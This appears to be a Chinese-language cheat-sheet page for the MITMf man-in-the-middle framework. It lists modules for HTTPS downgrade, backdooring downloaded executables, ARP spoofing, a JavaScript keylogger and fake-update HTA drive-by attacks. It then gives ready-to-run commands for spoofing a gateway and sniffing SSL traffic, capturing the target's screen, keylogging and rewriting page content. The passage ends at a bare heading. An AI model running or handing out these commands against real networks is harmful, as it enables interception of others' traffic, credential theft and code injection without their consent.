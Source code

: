 ## MITMf

* github: [https://github.com/byt3bl33d3r/MITMf](https://github.com/byt3bl33d3r/MITMf)

### 基本功能

功能 | 描述
 --- | ----
sslstrip | 部分绕过HSTS,将https降级为http协议。默认是开启的状态
Filepwn | 主要作用是当被欺骗对象尝试下载文件时，首先对文件进行分析，对可执行文件（PE、ELF）进行后门注入，然后再给到被欺骗对象
Cachekill | 清空客户端的缓存缓冲池，这个在我们需要重新注入一段js时是很有用的。
Spoof | 欺骗模块。当我们使用MITM功能攻击欺骗时绝对是不能缺少的。其主要包括对ARP、ICMP、DHCP进行流量重定向（三种模式不能同时使用）
BeEFAutorun | 该模块可以使框架可以连接到BeEF，将MITM与浏览器渗透结合起来
Replace | 可以对浏览内容进行替换，支持正则表达式。注意，这里模块默认情况下是强制刷新缓存缓冲池的，要想不改变缓冲内容，需要手动指定keep-cache参数
Inject | 可以向被欺骗者的浏览内容中注入各种猥琐的东西，比如js，html，图片，电影。
Browser Profiler | 枚举被欺骗机器的浏览器插件。对于前期的信息收集阶段还是很有用的。
JavaPwn | 可以通过向被攻击机器中注入jar使得浏览内容被毒化，和metasploit联合可以直接渗透机器拿到shell
Javascript Keylogger  | 一个键盘记录js
App Cache Poison | app缓存投毒。对于网页应用程序进行毒化处理，然后进行随心所欲的攻击。是Krzysztof Kotowicz的补充模块。
Upsidedownternet | 恶搞模块，图片旋转180度。
RedirectsBrowserProfiler | 这个插件可以检测目标的浏览器类型，这将有助于识别漏洞
HTA Drive-By | 注入一个假的更新通知，并提示客户下载一个HTA应用
AppCachePoison  | 执行HTML5的App-缓存中毒攻击
BrowserSniper | 执行与外的最新浏览器插件在客户端上HTA Drive-by攻击

### sample

* 嗅探SSL传输的数据包

  -a参数表示对http和https的数据包都嗅探

  `python mitmf.py -i eth0 --hsts -a --spoof --arp --gateway 10.0.0.1 --target 10.0.0.18`


* 目标浏览器截屏

  `python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --target 192.168.1.100 --screen`

* 恶搞功能: 它可以使目标浏览网页时，所有的图片都倒转 180度。

  `python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --upsidedownternet`

* 键盘记录

  `python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --jskeylogger`

* 替换

  `python mitmf.py -i eth0 --spoof  --arp --gateway 192.168.1.1 --target 1192.168.1.100 --replace --search-str "百度" --replace-str "xxx"`



## with beef
